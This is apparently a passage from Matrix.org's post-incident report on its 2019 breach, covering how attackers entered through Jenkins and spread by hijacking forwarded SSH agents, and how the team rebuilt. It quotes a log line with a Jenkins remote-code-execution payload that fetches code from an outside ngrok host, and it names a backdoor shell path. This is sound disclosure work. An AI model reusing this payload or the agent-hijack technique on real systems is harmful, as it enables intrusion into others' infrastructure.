 At this point we started doing forensics to understand the scope of the attack and plan the response, as well as taking snapshots of the hosts to protect data in case the attacker realised we were aware and attempted to vandalise or cover their tracks.  Findings were:



*   The attacker had first compromised Jenkins on March 13th via an RCE vulnerability (CVE-2019-1003000 - [https://www.exploit-db.com/exploits/46572](https://www.exploit-db.com/exploits/46572)):

`matrix.org:443 151.34.xxx.xxx - - [13/Mar/2019:18:46:07 +0000] "GET /jenkins/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition/checkScriptCompile?value=@GrabConfig(disableChecksums=true)%0A@GrabResolver(name=%27orange.tw%27,%20root=%27http://5f36xxxx.ngrok.io/jenkins/%27)%0A@Grab(group=%27tw.orange%27,%20module=%270x3a%27,%20version=%27000%27)%0Aimport%20Orange; HTTP/1.1" 500 6083 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:47.0) Gecko/20100101 Firefox/47.0"`

*   This allowed them to further compromise a Jenkins slave (Flywheel, an old Mac Pro used mainly for continuous integration testing of Riot/iOS and Riot/Android). The attacker put an SSH key on the box, which was unfortunately exposed to the internet via a high-numbered SSH port for ease of admin by remote users, and placed a trap which waited for any user to SSH into the jenkins user, which would then hijack any available forwarded SSH keys to try to add the attacker’s SSH key to root@ on as many other hosts as possible.
*   On Apr 4th at 12:32 GMT, one of the Riot devops team members SSH’d into the Jenkins slave to perform some admin, forwarding their SSH key for convenience for accessing other boxes while doing so.  This triggered the trap, and resulted in the majority of the malicious keys being inserted to the remote hosts.
*   From this point on, the attacker proceeded to explore the network, performing targeted exfiltration of data (e.g. our passbolt database, which is thankfully end-to-end encrypted via GPG) seemingly targeting credentials and data for use in onward exploits, and installing backdoors for later use (e.g. a setuid root shell at `/usr/share/bsd-mail/shroot`).
*   The majority of access to the hosts occurred between Apr 4th and 6th.
*   There was no evidence of large-scale data exfiltration, based on analysing network logs.
*   There was no evidence of Modular.im hosts having been compromised.  (Modular’s provisioning system and DB did run on the old infrastructure, but it was not used to tamper with the modular instances themselves).
*   There was no evidence of the identity server databases having been compromised.
*   There was no evidence of tampering in our source code repositories.
*   There was no evidence of tampering of our distributed software packages.
*   Two more hosts were compromised on Apr 5th by similarly hijacking another developer SSH agent as the dev logged into a production server.

By around 2am on Apr 11th we felt that we had sufficient visibility on the attacker’s behaviour to be able to do a first pass at evicting them by locking down SSH, removing their keys, and blocking as much network traffic as we could.

We then started a full rebuild of the datacenter on the morning of Apr 11th, given that the only responsible course of action when an attacker has acquired root is to salt the earth and start over afresh. This meant rotating all secrets; isolating the old hosts entirely (including ones which appeared to not have been compromised, for safety), spinning up entirely new hosts, and redeploying everything from scratch with the fresh secrets.  The process was significantly slowed down by colliding with unplanned maintenance and provisioning issues in the datacenter provider and unexpected delays spent waiting to copy data volumes between datacenters, but by 1am on Apr 12th the core matrix.org server was back up, and we had enough of a website up to publish the initial [security incident blog post](https://matrix.org/blog/2019/04/11/security-incident/). (This was actually static HTML, faked by editing the generated WordPress content from the old website. We opted not to transition any WordPress deployments to the new infra, in a bid to keep our attack surface as small as possible going forwards).
